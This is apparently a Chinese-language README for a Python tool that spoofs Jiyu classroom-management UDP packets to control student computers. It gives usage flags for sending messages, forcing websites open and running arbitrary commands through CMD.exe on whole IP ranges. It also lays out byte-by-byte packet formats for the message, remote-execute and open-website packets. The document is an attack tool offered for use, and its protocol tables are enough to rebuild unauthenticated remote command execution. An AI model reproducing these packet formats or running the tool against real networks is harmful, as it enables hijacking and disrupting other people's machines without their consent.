 # Jiyu_udp_attack

利用极域电子教室的 udp 包攻击学生机。

对这方面技术的了解来自 [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack/)。

## Environment

本项目使用了第三方库 scapy，因此需要下载 Npcap 或类似软件。

我正在学习 udp 包的格式，来在后续版本避免使用 scapy 和 Npcap。

## Usage

你可以从 Python 导入 `Jiyu_udp_attack` 模块，也可以使用命令行 `python Jiyu_udp_attack`。

使用 `python Jiyu_udp_attack -h` 来获取帮助信息：

```
usage: Jiyu_udp_attack [-h] -s TEACHER_IP -t TARGET [-p PORT] (-m MESSAGE | -w WEBSITE | -c COMMAND)

Jiyu Attack Script

options:
  -h, --help            show this help message and exit
  -s, --teacher-ip TEACHER_IP
                        Teacher's IP address
  -t, --target TARGET   Target IP address
  -p, --port PORT       Port to send packets to (default: 4705)
  -m, --message MESSAGE
                        Message to send
  -w, --website WEBSITE
                        Website URL to ask to open
  -c, --command COMMAND
                        Command to execute on the target

Github Repositories: https://github.com/weilycoder/Jiyu_udp_attack/tree/main/
```

其中目标 ip 的指定使用了 [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack/) 的创意，可以：

+ 指定具体 ip，如 `192.168.3.103`；
+ 指定 ip 范围，如 `192.168.3.100-150`；
+ 指定 ip 段，如 `192.168.3.0/24`。

最多指定 65536 个不同 ip。

## Jiyu API

记录抓包得到的极域 udp 包格式。

不记录包头信息，只记录 Data 格式。

子标题名是我自己起的。

### Message

用于教师端向学生端发送信息。

Data 区长 $954$。

| 长度  |                            内容                            |
| :---: | :--------------------------------------------------------: |
| $12$  |                 `444d4f43000001009e030000`                 |
| $16$  |                        随机二进制串                        |
| $28$  | `204e0000c0a86c019103000091030000000800000000000005000000` |
| $800$ |               信息内容，使用 `utf-16le` 编码               |
| $98$  |                  全 $0$ 段，可能是保留区                   |

### Execute

用于教师端在学生端远程执行命令。

Data 区长 $906$。

| 长度  |                             内容                             |
| :---: | :----------------------------------------------------------: |
| $12$  |                  `444d4f43000001006e030000`                  |
| $16$  |                         随机二进制串                         |
| $32$  | `204e0000c0a8e901610300006103000000020000000000000f00000001000000` |
| $512$ |             可执行程序位置，使用 `utf-16le` 编码             |
| $254$ |                执行参数，使用 `utf-16le` 编码                |
| $66$  |                          全 $0$ 段                           |
|  $1$  |       正常启动 `00`；最小化启动 `01`；最大化启动 `02`        |
| $13$  |                 `00000001000000000000000000`                 |

另外，脚本的 `-c` 功能实际上是使用参数 `f'/D /C "{args.command}"'` 打开程序 `CMD.exe`，这里参数使用 Python 的字符串格式化语法表示。

### Website

用于教师端在学生端远程打开网站。

Data 区变长，至少 $64$ 个字节。

|      长度       |                内容                |
| :-------------: | :--------------------------------: |
|       $8$       |         `444d4f4300000100`         |
|       $4$       |   $\mathrm{size}+36$，小端序编码   |
|      $16$       |            随机二进制串            |
|       $8$       |         `204e0000c0a8e901`         |
|       $4$       |   $\mathrm{size}+23$，小端序编码   |
|       $4$       |   $\mathrm{size}+23$，小端序编码   |
|      $16$       | `00020000000000001800000000000000` |
| $\mathrm{size}$ |     网址，使用 `utf-16le` 编码     |
|       $4$       |             全 $0$ 段              |

## License

MIT 协议。

